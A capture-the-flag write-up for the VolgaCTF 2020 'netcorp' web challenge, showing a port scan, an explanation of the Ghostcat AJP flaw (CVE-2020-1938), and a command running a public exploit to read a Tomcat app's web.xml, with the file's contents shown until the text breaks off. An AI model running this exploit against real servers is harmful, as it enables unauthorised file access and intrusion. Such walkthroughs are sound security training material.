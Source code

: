 a# web-netcorp

## Description

Another telecom provider. Hope these guys prepared well enough for the network load...

netcorp.q.2020.volgactf.ru

## Solution

Web app was running on tomcat server and had no valuable entry points.

After port scan we found a port of AJP protocol.

Port scanning results:
```
Nmap scan report for netcorp.q.2020.volgactf.ru (77.244.215.184)
Host is up (0.11s latency).

PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

"The Apache JServ Protocol (AJP) is a binary protocol that can proxy inbound requests from a web server through to an application server that sits behind the web server." - wiki

A severe vulnerability was found in Apache Tomcat’s Apache JServ Protocol in the previous year. The Chinese cyber security company Chaitin Tech discovered the vulnerability, which is named “Ghostcat” and is tracked using CVE-2020-1938.

With this vuln we can read arbitrary files from a web server via ajp and execute code that exists in the contents of HTTP responses.

There exists many exploits for this vuln. We can use the following for example: https://www.exploit-db.com/exploits/48143

Now we can read the most valuable tomcat app's file `/WEB-INF/web.xml` for understanding app routing.

Exploit:
```bash
python3 48143.py -f WEB-INF/web.xml netcorp.q.2020.volgactf.ru
```

Result:
```xml
<!DOCTYPE web-app PUBLIC
 "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN"
 "http://java.sun.com/dtd/web-app_2_3.dtd" >

<web-app>
  <display-name>NetCorp</display-name>
  <servlet>
        <servlet-name>ServeScreenshot</servlet-name>
        <display-name>ServeScreenshot</display-name>
        <servlet-class>ru.volgactf.netcorp.ServeScreenshotServlet</servlet-class>
  </servlet>

  <servlet-mapping>
        <servlet-name>ServeScreenshot</servlet-name>
        <url-pattern>/ServeScreenshot</url-pattern>
  </servlet-mapping>


        <servlet>
```